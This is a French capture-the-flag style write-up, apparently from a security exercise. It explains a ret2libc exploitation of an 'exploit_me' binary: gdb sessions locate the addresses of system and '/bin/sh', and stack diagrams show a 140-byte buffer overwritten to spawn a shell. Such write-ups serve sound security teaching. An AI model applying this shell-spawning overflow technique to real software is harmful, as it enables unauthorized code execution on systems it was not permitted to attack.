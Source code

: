Nous allons donc exploiter ce `SEGFAULT` avec la faille `Ret2libc`.

### Adressage
Pour éxcuter notre shell, nous avons besoin de trouver l'adresse de la fonction `system` et de la chaine `"/bin/sh"`. Le but étant de faire un appel à la fonction `system` avec ce paramètre. Pour cela, on exécute `gdb` sur notre exécutable avec les commandes suivante :
```
> gdb exploit_me
[...]
> (gdb) break main
[...]
> (gdb) run
[...]
```

---

**system**

```
> (gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
L'adresse de `system` est `0xb7e6b060`.

**/bin/sh**

```
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
[...]
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

En regardant le contenu à l'adresse `0xb7f8cc58`, on voit confirme que c'est `/bin/sh` :

```
> (gdb) x/s 0xb7f8cc58
[...]
0xb7f8cc58:	 "/bin/sh"
```
L'adresse de `"/bin/sh"` est `0xb7f8cc58`.

---

## Stack
Lors d'un appel à une fonction, la `stack` ressemble à ceci :
```
---------------------- esp
[local variable]
[local variable]
---------------------- ebp
[function ret]
[function parameter 1]
[function parameter 2]
[...]
```
Notre but est de faire ressembler la `stack` à ceci, pour exécuter la fonction `system` avec notre `"/bin/sh"`.
```
---------------------- esp
[buffer[140]]
---------------------- ebp
[system]        // system call
[system ret]    // system return address
[/bin/sh]       // system function argument
[...]
```
